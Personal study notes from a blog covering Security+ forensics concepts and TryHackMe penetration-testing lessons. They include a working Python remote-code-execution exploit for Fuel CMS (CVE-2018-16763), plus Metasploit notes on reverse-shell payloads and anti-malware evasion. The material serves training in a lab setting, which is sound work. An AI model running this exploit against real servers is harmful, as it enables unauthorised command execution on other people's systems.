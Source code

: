# ITPro.TV: CompTIA Security+ (SY0-601) & TryHackMe: Jr. Penetration Tester

* **author**:: Nathan Acks
* **date**:: 2022-04-13

## ITPro.TV: CompTIA Security+ (SY0-601)

### Digital Forensics Concepts

Order of volatility:

* CPU cache & registers (good luck!)
* Routing tables, process tables, ARP cache, kernel stats
* (Non-Kernel) RAM
* Swap, /tmp, etc.
* Storage, VM snapshots
* Archival data, backups, logs, print-outs

Preservation and documentation notes:

* Timestamp everything
* Note timezone differences
* Written reports and logs (also use these to establish the chain of custody)
* Witness testimony
* Use file hashes

Chain of custody is often represented as a simple paper log/form.

Tools of the trade:

* FTK Imager
* WinHex
* Autopsy
* EnCase Forensic
* `dd`

## TryHackMe: Jr. Penetration Tester

### Vulnerability Capstone

I couldn't get any of the exploits from Exploit DB to work for me, so I wound up doing a web search that landed me on a write-up for this room in GitHub; the provided exploit code is a little rough, but can be cleaned up to produce nice output without too much work:

```python
#!/usr/bin/python3

# Derived from https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py

import argparse
import requests
from sys import exit
from bs4 import BeautifulSoup
from socket import error

delimeter1 = '<div style="border:1px solid #990000;padding-left:20px;margin:0 0 10px 0;">'
delimeter2 = '</div>'

def exploit():
	while True:
		try:
			payload = input("
[+] OS Command: ")
			response = requests.get(f"{args.URL}/fuel/pages/select/?filter='%2Bpi(%24a%3D('system'))%2B%24a('{payload}')%2B'")
			htmlText = str(BeautifulSoup(response.text,'html.parser'))
			array1 = htmlText.split(delimeter1)
			array2 = array1[1].split(delimeter2)
			print('
' + array2[-1].replace('

',''))

		except error:
			exit('
[-] Could Not Connect To Server')

if __name__ == '__main__':

	mainArguments = argparse.ArgumentParser()
	mainArguments.add_argument('URL',help='Target Website Hosting Vulnerable CMS',type=str)
	args = mainArguments.parse_args()

	try:
		exploit()
	except KeyboardInterrupt:
		exit('
[!] Quitting')
```

* [THM-Vulnerability_Capstone-CVE-2018-16763](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763)
* [THM-Vulnerability_Capstone-CVE-2018-16763 / rce.py](https://github.com/SlizBinksman/THM-Vulnerability_Capstone-CVE-2018-16763/blob/main/rce.py)
* [Python String split() Method](https://www.w3schools.com/python/ref_string_split.asp)
* [Replace all newline characters using python](https://stackoverflow.com/questions/54760850/replace-all-newline-characters-using-python)

### Main Components of Metasploit

Module categories:

* Auxiliary (odds-n-ends)
* Encoders (re-encode exploits to thwart signature-based anti-malware solutions)
* Evasion (attempt to directly evade anti-malware solutions)
* Exploits
* NOPS (no-op code that can be used to pad exploits to a needed size)
* Payloads (what you want to run if the exploit is successful; often, but not always, some kind of shell)
* Post (additional post-exploitation tools)

Payloads, in turn, can be divided into:

* Singles (self-contained; also indicated by the use of an `_` separating "shell" from the rest of the payload name, as in `shell_reverse_tcp`)
* Stagers (small applications that establish a connection back to the attacker to download a larger, more complex payload)
* Stages (payloads designed to be downloaded by a stager; also indicated by the use of a `/` separating "shell" from the rest of the payload name, as in `shell/reverse_tcp`)

### Msfconsole

You can use msfconsole as a shell, but there's no redirect functionality.

Use `history` to display a command history.

All settings are scoped to the current module unless explicitly scoped globally (`set -g`).

The `show` command can be used with any module type to list modules of that type, though Metasploit is a bit inconsistent about whether the type should be plural or not (`show auxiliary` vs. `show exploits`). When used in the context of a module, this usage of `show` will attempt to filter additional modules in a sensible way; for example, in the context of a Windows exploit, only Windows-based payloads will be shown.

The `back` command leaves the context of the current module.

Use `info` to get module information (which is not generally the same as "help", though it often does contain useful informaiton).

We can limit the `search` query to a particular type of module using the `type:` parameter (e.g., `search type:exploit wordpress`).

### Working with Modules

The common `RHOSTS` module option accepts IP addresses, ranges, CIDR networks, and even a file with one target per line (specify as `file:/path/to/file.txt`).

Note that the `PAYLOAD` and `SESSION` parameters are not generally listed by `show options`, but can still be set if desired.

You can reset individual parameters using `unset`, and reset the entire module using `unset all`.

* `set -g` = `setg`
* `unset -g` = `unsetg`
* `run` = `exploit`

Some exploit modules have a `check` option which attempts to determine if a target is vulnerable without actually exploiting it. Alternately, other modules have a paired auxiliary scanner. Many *don't* have a check at all. YMMV!

Meterpreter sessions can be backgrounded using the `background` command, and all sessions can be backgrounded using `CTRL + Z`. List sessions using the `sessions` command, and foreground a session using `session -i #`, where `#` is the session number.
